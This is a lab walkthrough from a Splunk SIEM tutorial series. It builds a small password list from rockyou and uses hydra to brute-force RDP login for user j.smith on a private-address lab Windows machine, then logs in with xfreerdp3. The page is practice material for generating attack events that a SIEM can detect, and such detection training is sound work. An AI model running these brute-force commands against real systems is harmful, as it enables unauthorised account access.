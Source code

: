 ```yaml
---
title: 9.1.2 - RDP Attack
date: 2025-03-26 00:00:00 +/-TTTT
categories:
  - Splunk SIEM Implementation
tags:
  - splunk-siem-implementation
image: ../preview-image.png
media_subpath: /assets/img/Splunk-SIEM-Implementation/2025-03-26-9.1.2---RDP-Attack/
---
```


## Introduction
  
Let's begin by accessing our Kali Linux attacker machine. We will utilize Hydra, one of the most popular tools for conducting brute force attacks. Hydra comes pre-installed with Kali Linux, so there’s no need for manual installation.  
  
In this demonstration, we will target a specific user with the username **j.smith** (which corresponds to our Client 1's Windows machine). In real-world scenarios, an attacker would typically perform user enumeration to identify valid usernames before executing a brute force or credential stuffing attack, especially if multiple user accounts are involved.  
  
We will also create a custom wordlist based on the well-known `rockyou` wordlist, which is included with Kali Linux.  
  
## Creating a Custom Wordlist
  
- Navigate to the Wordlists Directory

```
cd /usr/share/wordlists/   
```

- Extract the Rockyou File

```
sudo gunzip rockyou.txt.gz
```

- Copy the Rockyou Text File to Your Desktop or Another Preferred Directory

```
cp rockyou.txt /home/kali/Desktop/
```

- Fetch the First 20 Passwords and Redirect Them into a New `passwords.txt` File

```
head -n 20 rockyou.txt > passwords.txt
```

- Append the User j.smith's Password to the List (Now I know we are kind of cheating here, but this is just a Proof of Concept so.....)
  
```
echo "1234" >> passwords.txt
```

- Verify the Custom Passwords Wordlist

```
cat passwords.txt
```

- You should see 20 random passwords listed, with the last entry being the actual password for the user.  

## Performing the Attack
  
- With the target user and custom wordlist prepared, we can move on to executing the brute force attack. The command below performs a password brute force attack on user j.smith, targeting the Windows client machine.  
  
```
hydra -l "j.smith" -P /home/kali/Desktop/passwords.txt rdp://192.168.125.30 -t 1 -V
```

**Command Breakdown:**
	
	- **`-l "j.smith"`**: Specifies the username for the brute force attempt.  
	- **`-P /home/kali/Desktop/passwords.txt`**: Provides Hydra with the custom password wordlist.  
	- **`rdp://192.168.125.30`**: Indicates the type of service being attacked (RDP) and the target IP address.  
	- **`-t 1`**: Sets the number of concurrent tasks to run (keeping it at 1 to avoid network overload).  
	- **`-V`**: Enables verbose output during the operation.  
  
![](2025-03-26-9.1.2---RDP-Attack-1.png)

- After the attack has completed, you should see results indicating 20 failed attempts and 1 successful attempt on the password for the user.

- And we can check this using a tool called xfreerdp3 to RDP into the target machine. Run the tool by running following command:

```
xfreerdp3 /v:192.168.125.30 /port:3389 /u:"j.smith" /p:"1234" /cert:ignore -clipboard

# if tool is not installed on your system, install it using:
sudo apt install freerdp3-x11
```

- now you are connected to the target machine using RDP.

![](2025-03-26-9.1.2---RDP-Attack-2.png)

